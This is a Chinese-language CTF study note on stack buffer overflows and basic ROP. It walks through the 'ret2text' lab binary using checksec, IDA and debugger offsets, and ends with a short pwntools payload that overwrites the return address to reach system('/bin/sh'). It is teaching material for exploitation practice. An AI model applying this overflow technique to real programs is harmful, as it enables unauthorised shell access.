 [栈溢出基础](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/stackoverflow_basic/)

样例情况

[基本ROP](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic_rop/)

ROP概念

ret2text

简介：

控制程序执行程序本身已有的代码。

核心

确定我们能够控制的内存的起始地址距离 main 函数的返回地址的字节数。

样例

分析 ret2text：

checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

打开IDA分析

发现gets函数存在栈溢出的可能，在`secure()`函数中发现了`system("/bin/sh");`这一指令。

查看汇编指令及相应的内存地址，我们我们需要将返回值返回到这里就可以了。

将断点下在 `0x080486AE` 并进行调试。

此时 `$esp` 的值为 `0xffffcde0` ，`$ebp` 的值为 `0xffffce68 ` 。由IDA的反汇编知字符串 `s` 相对于 `$esp` 的偏移为 `0x1c` ，所以 `s` 的地址为 `0xffffcdfc` 。所以 `s` 相对 `$ebp` 的偏移为 `0x6c` ，相对于返回地址的偏移为`0x6c+4=0x70` 。则可以构造出 payload:

```python
import pwn
p = pwn.process('./ret2text')
sh_addr = 0x0804863A
p.sendline('a'*(0x6c+4)+pwn.p32(sh_addr))
p.interactive()
```

这样就可以拿到shell了。